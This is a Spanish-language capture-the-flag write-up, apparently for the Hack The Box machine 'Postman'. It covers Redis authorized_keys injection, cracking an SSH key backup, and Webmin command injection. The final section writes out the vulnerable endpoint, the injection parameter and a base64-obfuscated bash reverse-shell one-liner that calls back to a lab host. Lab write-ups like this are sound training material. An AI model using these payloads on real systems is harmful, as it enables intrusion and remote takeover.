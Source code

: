 ```yaml
---
layout: post
title: Write-Up Máquina Postman HTB
date: 2021-01-14 10:23 +0800
last_modified_at: 2021-01-14 10:28 +0800
tags: [htb, writeup, ssh, Redis, Webmin, Linux]
toc:  true
---
```

![Postman-Card](/assets/imagenes/2021-01-14-postman-HTB/Postman-card.png)

---
## Introducción

La máquina Postman corre ins sistema linux de 64 bits y tiene un nivel de deificultad fácil. Para la explotación inicial, vamos a hacer uso de una vulnerabilidad de escritura de ficheros que afecta al servicio Redis entre las versiones 4.0 y 5.0. Posteriormente a esto vamos a utilizar una clave privada que se encentra en un directorio de la maquina para realizar un movimiento lateral y asi conseguir el user. Para la escalada de privilegios, vamos a hacer uso de una vulnerabilidad de rce en el servicio webmin con la que obtendremos una shell reversa.

---
## Escaneo

![Postman-nmap](/assets/imagenes/2021-01-14-postman-HTB/Postman-nmap.png)

El escaneo de la maquina nos revela que tenemos abiertos los puertos:
* 22 ----> SSH
* 80 ----> http
* 6379 --> Redis
* 10000 -> http

### Puerto 80 (apache)

En el puerto 80 nos encontramos con una web que dice estar en construccion:

![Postman-web](/assets/imagenes/2021-01-14-postman-HTB/Postman-web.png)

En este caso la web no aloja nada que nos interese para la explotación.

### Puerto 3679 (Redis)

Buscando informacion sobre la version de redis encontramos un articulo de medium que habla sobre [como obtener una rce en Redis](https://medium.com/@knownsec404team/rce-exploits-of-redis-based-on-master-slave-replication-ef7a664ce1d0).
Para nuestro caso vamos a modificar un poco los comandos que ejecuta, pero la base es la misma.
El procedimiento que vamos a seguir en este caso es crear un par de claves RSA  e inyectarlas al servidor Redis para escribirlas en el fichero authorized_keys del user redis.

### Puerto 10000 (Webmin)

En el puerto 10000 nos encontramos un webmin desactualizado del que no tenemos ningun tipo de credencial.

---

## Explotación

Lo primero, vamos a generar nuestro par de claves:

![Postman-id-rsa-redis](/assets/imagenes/2021-01-14-postman-HTB/Postman-id-rsa-redis.png)

Una vez generadas vamos a empezar a interactuar con el servidor redis para para inyectar nuestra clave publica en las claves autorizadas.

![Postman-explotacion](/assets/imagenes/2021-01-14-postman-HTB/Postman-explotacion-redis.png)

Una vez hecho esto, le asignamos los permisos correctos a nuestra clave privada (600) y nos conectamos por ssh.

![Postman-ssh](/assets/imagenes/2021-01-14-postman-HTB/Postman-ssh-redis.png)

---

## Movimiento lateral

Si nos vamos al directorio /opt, veremos un fichero llamado id_rsa.bak el cual es propiedad del user Matt.

![Postman-id_rsa.bak-dir](/assets/imagenes/2021-01-14-postman-HTB/Postman-id-rsa-matt-bak-opt.png)

Ya que tenemos la clave privada vamos a copiarla y a intentar crackearla con la herramienta john the ripper.
Pero primero tenemos que pasar la clave privada a un formato entendible para john, porlo que vamos a isar la herramienta `/usr/share/john/ssh2john.py`. El comando quedaria de la sigiente manera:
* /usr/share/john/ssh2john.py id_rsa.bak > id_rsa-bak.txt (Para las ultimas versiones de ParrotOs y Kali que no traen el paquete python hay que editar la primera linea del fichero y cambiar *python* por **python2.7**).

Una vez ejecutado ya podemos intentar crackear la clave.

![Postman-cracked-Matt](/assets/imagenes/2021-01-14-postman-HTB/Postman-cracked-matt.png)

**¡¡Ya tenemos una posible password para el user Matt!!**

Vamos a probarla.

![Postman-su-Matt](/assets/imagenes/2021-01-14-postman-HTB/Postman-su-Matt-succesful.png)

Ya somos Matt.

![Postman-Matt-flag](/assets/imagenes/2021-01-14-postman-HTB/Postman-prueba-Matt.png)

---

## Escalada de privilegios

Para la escalada de privilegios nos vamos a aprovechar de una vulneravilidad en el servicio webmin que nos permitira llamar a una shell reversa a traves de bash.

Primero vamos a encodear el comando en base64.

![Postman-bash-payload](/assets/imagenes/2021-01-14-postman-HTB/Postman-bash-payload.png)

Ahora generaremos el payload que vamos a mandar al servidor.

![Postman-peticion](/assets/imagenes/2021-01-14-postman-HTB/Postman-peticion.png)

* URL: 10.10.10.160:10000/package-updates/update.cgi
* Method: POST
* payload: u=acl%2Fapt&u=$(command)

En nuestro caso la string del comando es:
```bash
echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNi8xMjM0IDA%2bJjEn|base64${IFS}-d|bash
```
${IFS} se usa para sustituir los espacios y %2b es para sustituir los simbolos + y que no se transformen en espacios.

Con el listener levantado recibiremos la conexion.

![Postman-rev-shell-root](/assets/imagenes/2021-01-14-postman-HTB/Postman-rev-shell-root.png)








